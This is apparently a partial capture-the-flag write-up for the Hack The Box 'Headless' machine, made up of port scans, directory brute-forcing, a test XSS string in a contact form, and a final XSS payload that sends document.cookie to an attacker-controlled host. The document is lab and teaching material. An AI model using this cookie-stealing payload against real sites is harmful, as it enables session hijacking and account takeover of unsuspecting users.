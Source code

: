 # Hack the Box | Headless

```shell
rustscan -b 1000 -u 5000 -a 10.10.11.8 -r 0-65535
```
```shell
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.8:22
Open 10.10.11.8:5000
[~] Starting Script(s)
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-28 04:58 EDT
Initiating Ping Scan at 04:58
Scanning 10.10.11.8 [2 ports]
Completed Ping Scan at 04:58, 0.11s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 04:58
Completed Parallel DNS resolution of 1 host. at 04:58, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 04:58
Scanning 10.10.11.8 [2 ports]
Discovered open port 22/tcp on 10.10.11.8
Discovered open port 5000/tcp on 10.10.11.8
Completed Connect Scan at 04:58, 0.11s elapsed (2 total ports)
Nmap scan report for 10.10.11.8
Host is up, received conn-refused (0.11s latency).
Scanned at 2024-07-28 04:58:24 EDT for 0s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
5000/tcp open  upnp    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```

![image](https://github.com/user-attachments/assets/3f8bfa63-74f2-45f5-bf57-0aa09aab8802)
```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.11.2
Date: Sun, 28 Jul 2024 13:12:35 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2799
Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
Connection: close
```
![image](https://github.com/user-attachments/assets/7f735d8a-1c76-438f-869c-7a5ef2bcf244)
![image](https://github.com/user-attachments/assets/cf9b28f5-7fae-4ee1-9987-c46479da10be)
![image](https://github.com/user-attachments/assets/480f95e3-2ac1-4db1-a882-33250ba8247f)
```
fname=Ricky&lname=1337&email=ricky%40hackme.com&phone=9879879870&message=<script>alert('XSS')</script>
```
![image](https://github.com/user-attachments/assets/b43b8b99-2efb-4feb-a712-da2b2e09dd35)

```shell
feroxbuster -u http://10.10.11.8:5000 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --no-recursion --dont-extract-links --random-agent --filter-status 404 --redirects
```
```shell
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.4
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.8:5000
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.4
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        5l       31w      207c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       93l      179w     2363c http://10.10.11.8:5000/support
200      GET       96l      259w     2799c http://10.10.11.8:5000/
500      GET        5l       37w      265c http://10.10.11.8:5000/dashboard
[####################] - 24s     4725/4725    0s      found:3       errors:0      
[####################] - 23s     4724/4724    202/s   http://10.10.11.8:5000/          
```
![image](https://github.com/user-attachments/assets/bd0d8ceb-9499-4274-9c79-631a16e67878)

![image](https://github.com/user-attachments/assets/1a624181-7897-4005-bb0f-13fac63fc3ec)

![image](https://github.com/user-attachments/assets/dc1d7bcf-ed72-4b3a-ba99-d321a19c5282)

![image](https://github.com/user-attachments/assets/6ee1f70c-b15b-463d-8770-1c184b2687f1)

```js
<script>var i=new Image(); i.src="http://10.10.14.47/?c="+document.cookie;</script>
```
![image](https://github.com/user-attachments/assets/1c522809-9751-4e4f-b49b-c7f9034f057d)

